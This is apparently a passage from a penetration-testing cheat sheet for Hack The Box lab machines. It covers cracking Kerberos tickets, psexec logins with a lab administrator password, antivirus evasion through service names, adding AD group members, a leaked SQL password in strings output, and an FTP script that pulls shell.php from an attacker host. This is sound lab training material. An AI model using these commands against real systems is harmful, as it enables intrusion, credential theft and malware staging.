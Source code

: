 Then try cracking the Kerberos ticket by

```
john GetUserSPNsOutput.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Then login with psexec.py.&#x20;

```
psexec.py administrator@active.htb
```

&#x20;You can choose a service for avoiding antivirus detection with --service-name.

```
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 -service-name LUALL.exe
```

### Exploiting AD users

You should import the 'activedirectory' module first.&#x20;

```
Import-module activedirectory
```

Add an AD member to a Group

```
add-adgroupmember -Identity "$group" -Members $member
```

### Other Useful commands

Strings prints text strings embedded in binary files such as executables.

```
root@kali:~/htb/tally# strings tester.exe
!This program cannot be run in DOS mode.
Rich7J
~~~
~~~
SQLSTATE: 
Message: 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
~~~
~~~
```

Transfering file to windows

```
echo open $attackerip 21> ftp.txt 
echo USER offsec 
password>> ftp.txt 
echo bin>> ftp.txt 
echo GET shell.php >> ftp.txt 
echo bye >> ftp.txt
```
